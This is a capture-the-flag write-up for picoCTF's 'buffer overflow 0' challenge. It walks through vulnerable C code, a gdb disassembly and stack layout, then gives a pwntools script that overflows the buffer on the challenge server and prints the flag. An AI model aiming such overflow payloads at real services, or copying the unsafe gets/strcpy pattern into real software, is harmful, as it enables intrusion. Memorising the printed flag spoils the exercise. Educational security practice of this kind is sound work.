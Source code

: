 # buffer overflow 0

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 100

# Challenge

## Description

Smash the stack  
Let's start off simple, can you overflow the correct buffer? The program is available [here](./vuln). You can view source [here](./vuln.c). And connect with it using:  
`nc saturn.picoctf.net 64712`

## Source

[vuln.c](./vuln.c) (C source)  
[vuln](./vuln) (32-bit ELF)

# Solution

Reading the code, we can see that the flag is printed from the `sigsegv_handler` function. This function is being set as the handler for the `SIGSEGV` signal, which is triggered when the program tries to access an invalid memory address. Let's look at the `vuln()` function:

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

It takes a string as input, and copies it to a buffer of size 16. This is a classic [buffer overflow vulnerability](/Guides/Vulnerabilities/Buffer%20Overflow%20Vulnerability.md). If we pass a string longer than 16 characters, we will overflow the buffer, and overwrite variables on the stack, more specifically, the return address of the function. Let's look at the `vuln()` call in `main()`:

```c
int main(int argc, char **argv){
  ...
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  ...
}
```

The program reads a string from the user, into a buffer of size 100, and passes it to `vuln()`. That should be more than enough for us to trigger a buffer overflow. Let's look at the relative position of `buf2` and the return address on the stack:

```bash
$ gdb ./vuln
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x00001353 <+0>:     endbr32
   0x00001357 <+4>:     push   ebp
   0x00001358 <+5>:     mov    ebp,esp
   0x0000135a <+7>:     push   ebx
   0x0000135b <+8>:     sub    esp,0x14
   0x0000135e <+11>:    call   0x149b <__x86.get_pc_thunk.ax>
   0x00001363 <+16>:    add    eax,0x2c49
   0x00001368 <+21>:    sub    esp,0x8
   0x0000136b <+24>:    push   DWORD PTR [ebp+0x8]
   0x0000136e <+27>:    lea    edx,[ebp-0x18]
   0x00001371 <+30>:    push   edx
   0x00001372 <+31>:    mov    ebx,eax
   0x00001374 <+33>:    call   0x1170 <strcpy@plt>
   0x00001379 <+38>:    add    esp,0x10
   0x0000137c <+41>:    nop
   0x0000137d <+42>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00001380 <+45>:    leave
   0x00001381 <+46>:    ret
End of assembler dump.
```

On lines `<+27>`-`<+30>`, we can see the function loads the memory address of `[ebp-0x18]` to the stack, as an argument to `strcpy`. That means the stack looks like that:

```
[ebp-0x18]  buf2 (size 16)
[ebp-0x08]  ? (DWORD)
[ebp-0x04]  ? (DWORD)
[ebp+0x00]  old ebp (line <+4>) (DWORD)
[ebp+0x04]  return address (DWORD)
```

So, in order to overwrite the return address, we need to pass a string at least 32 characters long (16 + 4 + 4 + 4 + 4), and the last 4 characters should be an invalid memory address, so that the program will try to access it, and trigger a `SIGSEGV` signal. Entering a string filled with `A`'s should do the trick:

```python
from pwn import *

conn = remote('saturn.picoctf.net', 64712)

conn.sendlineafter(b'Input: ', b'A' * 32)
flag = conn.recvline(False).decode()

print('Flag:', flag)
```

```
Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

**The Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`
